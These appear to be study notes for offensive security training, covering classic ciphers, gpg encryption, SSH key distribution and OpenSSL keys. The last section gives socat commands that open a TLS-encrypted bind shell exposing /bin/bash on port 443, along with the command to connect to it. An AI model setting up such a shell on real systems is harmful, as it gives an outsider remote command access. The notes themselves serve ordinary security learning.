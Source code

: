 # ROT13 Substitution Cipher
* Special case of Cesar Chiffre
* Substitute A-Z by rotation of 13 starting with N
* Translate or delete chars https://linux.die.net/man/1/tr

```bash
echo text to encrypt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
echo grkg gb rapelcg | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

# Weak XOR Stream Cipher
* key len is not equal to message
* message is a string not a bytearray

```python
#!/usr/bin/python3
import base64
from itertools import cycle 

key = 'K'.encode()
message = 'text to encrypt ЖИЛ'.encode()

encrypted = bytearray()
for m,k in zip (message, cycle(key)):
    encrypted.append(m^k)
print(f'Encrypted: {base64.b64encode(encrypted).decode()}')

decrypted = bytearray()
for c,k in zip (encrypted, cycle(key)):
    decrypted.append(c^k)
print(f'Decrypted: {decrypted.decode()}')
```

# Symmetric Block Cipher
* http://irtfweb.ifa.hawaii.edu/~lockhart/gpg/
* Secure because requires 64 bits blocks
* Use gpg to encrypt data with secret key
* List --cipher-algo with gpg --version
* -c, --symmetric with passphrase
* -d, --decrypt
* --output file

```bash
echo "Symmetric encryption." > msg
gpg -c --cipher-algo aes256 msg
gpg -c --cipher-algo twofish msg
gpg -d msg.gpg
file msg.gpg
```
# Asymmetric Cipher
* Use gpg to encrypt data with public key
* --amor ascii output instead of binary

```bash
# import keys to keyring
gpg --import pub.asc
gpg --import private.asc
```

```bash
echo "Asymmetric encryption." > msg
gpg --gen-key
gpg --output pub.asc --amor --export user@email.com
gpg --recipient Offsec --encrypt msg
gpg -d msg.gpg
```

# RSA Number Factorization
* Online RSA Calculators
* https://www.alpertron.com.ar/ECM.htm
* https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
* https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSAWorksheetv4e.html

# SSH Key Generation and Distribution
* Distribute key to authorized_keys file

```bash
ssh-gen
ssh-copy-id -i /home/kali/.ssh/id_rsa.pub user@remote
ssh -i /home/kali/.ssh/id_rsa.pub user@remote
scp -i /home/kali/.ssh/id_rsa path-to-file user@remote:/tmp/
```

# OpenSSL Key Generation

* -newkey Generate new key instead algorithm
* -x509 Output an X.509 certificate structure instead of a cert request
* -nodes Deprecated to no encrypt private key
* -noenc No encrypt private key

```bash
openssl req -newkey rsa:2048 -noenc -keyout bind_shell.key -x509 -days 45 -out bind_shell.crt
```

# SOCAT OpenSSL encrypted Bind-Shell

* use x509 cert to encrypt connection to bindshell listener
* verify=0 tells socat to not to check the client's certificate.
* fork spawn a child process
* EXEC:/bin/bash 


```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
# client without cert and verification
socat - OPENSSL:remote:443,verify=0
```